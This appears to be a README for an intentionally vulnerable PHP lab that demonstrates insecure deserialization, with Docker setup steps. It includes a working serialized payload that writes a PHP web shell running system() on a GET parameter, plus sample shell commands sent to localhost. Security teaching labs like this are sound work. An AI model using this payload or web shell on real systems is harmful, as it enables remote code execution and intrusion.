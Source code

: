 # Insecure Deserialization
tl;dr

User locally serializes some data and passes it to our app which uploads a shell.

## Files 

```
file.php
```
Blindly accepts anything and runs unserialize()

```
serialize.php
```
Generates a serialized exploit

## Installing

Git checkout this repo

```
cd into this repo
```

```
docker build -t insecure_deserialize:latest .
```

## Running

```
docker run -d insecure_deserialize:latest -p 33322:80
```

## Exploting

* First we serialize our payload with serialize.php
```
php serialize.php
```

* We then copy our payload and run it against our vulnerable site
* * If the payload executes the screen will return white
```
http://localhost:33322/file.php?u=O:4:"File":2:{s:8:"filename";s:16:"simple_shell.php";s:7:"content";s:35:"<?php echo system($_GET['cmd']); ?>";}
```

* We now have a simple cmd shell on our host and can execute away

```
http://localhost:33322/simple_shell.php?cmd=whoami
```
```
http://localhost:33322/simple_shell.php?cmd=ls -la
```

* Thanks

[1]https://www.exploit-db.com/docs/english/44756-deserialization-vulnerability.pdf
